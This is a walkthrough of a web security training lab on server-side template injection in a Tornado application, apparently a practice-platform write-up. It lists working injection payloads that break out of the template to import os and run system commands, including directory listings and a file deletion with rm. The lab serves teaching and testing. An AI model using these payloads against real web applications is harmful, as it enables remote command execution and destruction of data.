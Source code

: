 # Lab: Basic server-side template injection (code context)

> Lab Objective: review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

- Login using provided credentials `wiener:peter`.

- Post a comment in any product page, you'll review your preferred name and the submitted comment.
  ![1st screenshot](./attachments/1.png)

- View `/my-account`, then change the preferred name and inspect the request.

- Add this payload `}}{{7*7` to the value of `blog-post-author-display` parameter.
  ![2nd screenshot](./attachments/2.png)

- Review the comment you just submitted, you'll notice that the result `49` is added to your first name.
  ![3rd screenshot](./attachments/3.png)

- Intercept the preferred name request again, and replace this payload `''}}{%import os%}{{os.system('whoami')}}` with the value of `blog-post-author-display` parameter.
  ![4th screenshot](./attachments/4.png)

- Then view the submitted comment, you'll notice that the command has executed.
  ![5th screenshot](./attachments/5.png)

- Repeat the same steps, but for listing directories of root directory `/` using this payload `''}}{%import os%}{{os.system('ls /')}}`
  ![6th screenshot](./attachments/6.png)
  ![7th screenshot](./attachments/7.png)

- List `/home/` directory using this payload `''}}{%import os%}{{os.system('ls /home/')}}`
  ![8th screenshot](./attachments/8.png)
  ![9th screenshot](./attachments/9.png)

- List `/home/carlos` directory using this payload `''}}{%import os%}{{os.system('ls /home/carlos')}}`
  ![10th screenshot](./attachments/10.png)
  ![11th screenshot](./attachments/11.png)

- Then finally, delete `morale.txt` file in carlos home directory using this payload `''}}{%import os%}{{os.system('rm /home/carlos/morale.txt')}}`
  ![12th screenshot](./attachments/12.png)
  ![13th screenshot](./attachments/13.png)

- And the lab is solved.
  ![14th screenshot](./attachments/14.png)

---
